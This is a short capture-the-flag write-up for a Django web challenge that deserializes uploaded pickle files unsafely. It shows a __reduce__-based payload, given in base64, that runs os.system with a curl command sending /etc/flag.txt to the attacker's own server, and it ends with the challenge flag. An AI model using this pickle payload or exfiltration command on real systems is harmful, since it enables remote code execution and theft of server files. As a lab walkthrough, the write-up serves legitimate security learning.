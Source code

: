 # Love Django(998 pts) (2 solves) #

![TASK](https://imgur.com/Z73SeQV.png)

This task was published in Securinets-Mini CTF but unfortunately it had 0 solves :'( However two teams managed to solve it in NCSC2.0_CTF , the idea is simple we have an unsafe serialization using pickle, let's begin our road !

When we visit the url we have this web application that generates an id and has an upload and download functionality

![WEB](https://imgur.com/ShHvMqy.png)

we try to generate an id and download it and BINGO the filename is pickle_shinobi.data, so now we are pretty sure that it's an unsafe serialization 

![WEB](https://imgur.com/usG1M4H.png)

Now we will use the famous pickle magic function __REDUCE__ and import os library then execute this simple command
> curl YourVpsIP/?a=`cat /etc/flag.txt`

Final Payload to Upload (Base64 encoded) :
> Y3Bvc2l4CnN5c3RlbQpwMAooUydjdXJsIFlvdXJWcHNJUC8/YT1gY2F0IC9ldGMvZmxhZy50eHRgJwpwMQp0cDIKUnAzCi4=

![WEB](https://imgur.com/HpGGVJK.png)

Ofc don't forget to listen on your server xd And Bingo we have our flag :D 

>Securinets{DjanGo_1}
